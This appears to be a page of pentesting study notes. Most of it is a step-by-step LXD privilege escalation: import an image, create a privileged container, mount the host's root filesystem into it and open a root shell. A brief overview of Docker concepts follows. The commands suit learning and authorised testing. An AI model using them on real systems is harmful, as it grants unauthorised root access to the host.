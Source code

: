 ## Exploiting LXC/LXD

* Attackers can exploit insecure templates or weak configurations.
* Steps to exploit:

### 1. Check for available container images

```bash
cd ContainerImages
ls
```

Example:

```
ubuntu-template.tar.xz
```

### 2. Import the container image

```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```

### 3. Initialize with privileged flag

* Use `security.privileged=true` to disable isolation.
* Mount host root into container:

```bash
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

### 4. Start and access the container

```bash
lxc start privesc
lxc exec privesc /bin/bash
```

### 5. Access host filesystem as root

```bash
ls -l /mnt/root
```

This exposes the host root filesystem, enabling **privilege escalation**.

---

# Docker

## Docker Basics
- **Docker**: open-source tool for portable, consistent runtime environments.
- Uses **containers** → isolated user-space environments at OS level.
- Containers = lightweight, resource-efficient compared to VMs.
- **Docker Image** = blueprint/template (code, deps, configs).
- **Docker Container** = instance of an image (mutable, isolated).
- **Dockerfile** = defines build steps for images.

---